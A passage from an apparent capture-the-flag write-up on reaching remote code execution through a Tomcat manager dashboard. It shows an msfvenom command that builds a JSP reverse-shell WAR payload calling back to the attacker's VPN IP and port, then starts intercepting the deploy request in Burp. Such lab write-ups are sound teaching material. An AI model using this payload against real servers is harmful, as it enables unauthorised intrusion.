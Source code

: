 Logged in in the dashboard we can deploy a war file, which get's unzipped to a jsp and gives us remote code execution.

[![tomcat_dashboard](/img/seal/tomcat_dashboard.png)](/img/seal/tomcat_dashboard.png)

In a first step we generate our war file with msfvenom pointing to our vpn ip.

```php
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.68 LPORT=7575 -f war -o sm.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes
Saved as: sm.war
```

After selecting our file we set burp to intercept the next request and click on deploy.

[![intercept_1](/img/seal/intercept_1.png)](/img/seal/intercept_1.png)
